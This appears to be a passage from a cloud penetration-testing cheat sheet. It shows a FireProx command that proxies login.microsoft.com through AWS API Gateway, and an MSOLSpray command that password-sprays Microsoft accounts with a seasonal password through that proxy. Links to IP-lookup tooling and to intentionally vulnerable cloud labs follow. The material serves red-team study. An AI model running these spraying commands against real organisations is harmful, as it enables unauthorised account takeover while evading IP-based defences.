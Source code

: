 Launch FireProx

```bash
python fire.py --access_key <access_key_id> --secret_access_key <secret_access_key> --region <region> --url https://login.microsoft.com --command create
```

Password spray using FireProx + MSOLSpray

```powershell
Invoke-MSOLSpray -UserList .\userlist.txt -Password Spring2020 -URL https://api-gateway-endpoint-id.execute-api.us-east-1.amazonaws.com/fireprox
```

### ip2Provider

Check a list of IP addresses against cloud provider IP space

https://github.com/oldrho/ip2provider

### Vulnerable Infrastructure Creation

Cloudgoat - https://github.com/RhinoSecurityLabs/cloudgoat

SadCloud - https://github.com/nccgroup/sadcloud

Flaws Cloud - http://flaws.cloud

Thunder CTF - http://thunder-ctf.cloud 
